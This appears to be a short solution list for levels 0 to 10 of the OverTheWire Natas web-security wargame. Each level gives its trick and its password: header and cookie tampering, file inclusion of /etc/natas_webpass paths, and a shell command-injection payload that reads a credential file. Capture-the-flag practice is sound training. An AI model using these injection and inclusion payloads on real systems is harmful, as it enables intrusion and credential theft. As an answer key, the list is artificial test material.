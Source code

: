 # 0

In the comments

passowrd: gtVrDuiDfck831PqWsLEZy5gyDz1clto

# 1
In the comments

password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

# 2
http://natas2.natas.labs.overthewire.org/files/users.txt

password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

# 3
http://natas3.natas.labs.overthewire.org/robots.txt
```
User-agent: *
Disallow: /s3cr3t/
```
password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

# 4
Add `Referer` header

Referer: http://natas5.natas.labs.overthewire.org/

password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# 5
document.cookie = "loggedin=1"

password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# 6
`http://natas6.natas.labs.overthewire.org/includes/secret.inc`

```
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```
password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# 7
`http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# 8
```bash
echo "3d3d516343746d4d6d6c315669563362" | xxd -r -p | rev | base64 -D
oubWYf2kBq
```
password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# 9
sh injection
```bash
; cat /etc/natas_webpass/natas10;
```
password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

#10
```
c /etc/natas_webpass/natas11
```
password: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

